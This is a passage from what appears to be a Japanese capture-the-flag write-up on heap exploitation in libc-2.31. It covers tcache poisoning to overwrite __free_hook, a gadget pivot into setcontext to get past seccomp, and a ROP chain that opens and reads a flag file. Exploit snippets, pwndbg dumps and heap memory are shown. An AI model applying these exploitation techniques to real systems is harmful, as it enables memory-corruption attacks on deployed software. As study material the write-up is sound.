 下記を実行することで、0x80サイズの`tcachebins`に(`free_hook-0x10`)のデータを書き込むことができます。
```python
Free()
Alloc(0xe0, b"A"*0x78+p64(0x81)+p64(free_hook-0x10))
```
`tcachebins`に`__free_hook`のアドレスを書き込んだ状態は下記になります。
```
pwndbg> bins
tcachebins
0x20 [  6]: 0x55555555b2a0 —▸ 0x55555555a770 —▸ 0x55555555ae50 —▸ 0x55555555acb0 —▸ 0x55555555ab10 —▸ 0x55555555a6e0 ◂— 0x0
0x70 [  3]: 0x55555555b030 —▸ 0x55555555b1b0 —▸ 0x55555555a700 ◂— 0x0
0x80 [  7]: 0x55555555a910 —▸ 0x55555555aa90 —▸ 0x55555555ac30 —▸ 0x55555555add0 —▸ 0x55555555af70 —▸ 0x7ffff7f8de38 (__attr_list_lock) ◂— 0x0
0xd0 [  5]: 0x55555555a190 —▸ 0x555555559e60 —▸ 0x555555559b30 —▸ 0x555555559800 —▸ 0x555555559370 ◂— 0x0
```

`seccomp`でシステムコールが制限されているため`system`関数が使えません。そのためROPにする必要があるが、`setcontext`関数で使用するレジスタがlibc-2.31.soでは`rdx`に変更になっているため、`setcontext`関数を直接使用できません。

以下は`setcontext`関数の抜粋です。
```
   0x00007ffff7df3f8d <+61>:	mov    rsp,QWORD PTR [rdx+0xa0]
   0x00007ffff7df3f94 <+68>:	mov    rbx,QWORD PTR [rdx+0x80]
   0x00007ffff7df3f9b <+75>:	mov    rbp,QWORD PTR [rdx+0x78]
   0x00007ffff7df3f9f <+79>:	mov    r12,QWORD PTR [rdx+0x48]
   0x00007ffff7df3fa3 <+83>:	mov    r13,QWORD PTR [rdx+0x50]
   0x00007ffff7df3fa7 <+87>:	mov    r14,QWORD PTR [rdx+0x58]
   0x00007ffff7df3fab <+91>:	mov    r15,QWORD PTR [rdx+0x60]
   0x00007ffff7df3faf <+95>:	test   DWORD PTR fs:0x48,0x2
   0x00007ffff7df3fbb <+107>:	je     0x7ffff7df4076 <setcontext+294>
```

他には`push rdi; ... ;pop rsp;...;ret;`のROPガジェットを探したが、利用できるものはありませんでした。

下記のサイトを確認したところ、`mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];`と`setcontext`関数のROPガジェットを利用することで、`rsp`レジスタにヒープのアドレスを設定できるので、ROPを利用できました。
https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/

ROPでは、`./flag.txt`ファイルを`sys_open`して、`sys_read`、`sys_write`の順にシステムコールすることで、フラグファイルを読み出すことができます。

下記は、`__free_hook`に`mov rdx, qword ptr [rdi + 8];...`のアドレスを設定した状態です。
```
0x7ffff7f8de30 <fork_handlers+1552>:	0x0000000000000000	0x0000000000000000
0x7ffff7f8de40 <__after_morecore_hook>:	0x000055555555b2c0	0x00007ffff7ef08b0
```

下記はヒープにROPのコードを書き込んだ状態です。
```
0x55555555b290:	0x0000000000000000	0x0000000000000021
0x55555555b2a0:	0x000055555555a770	0x0000555555559010
0x55555555b2b0:	0x0000000000000001	0x0000000000000211
0x55555555b2c0:	0x4141414141414141	0x4141414141414141
0x55555555b2d0:	0x4141414141414141	0x4141414141414141
0x55555555b2e0:	0x00007ffff7df3f8d	0x4242424242424242
0x55555555b2f0:	0x4242424242424242	0x4242424242424242
0x55555555b300:	0x4242424242424242	0x4242424242424242
0x55555555b310:	0x4242424242424242	0x4242424242424242
0x55555555b320:	0x4242424242424242	0x4242424242424242
0x55555555b330:	0x4242424242424242	0x4242424242424242
0x55555555b340:	0x4242424242424242	0x4242424242424242
0x55555555b350:	0x4242424242424242	0x4242424242424242
0x55555555b360:	0x000055555555b370	0x00007ffff7dc1679
0x55555555b370:	0x00007ffff7de6400	0x0000000000000002
0x55555555b380:	0x00007ffff7dc2b72	0x000055555555b418
0x55555555b390:	0x00007ffff7dc504f	0x0000000000000000
0x55555555b3a0:	0x00007ffff7e020d9	0x00007ffff7dc2b72
```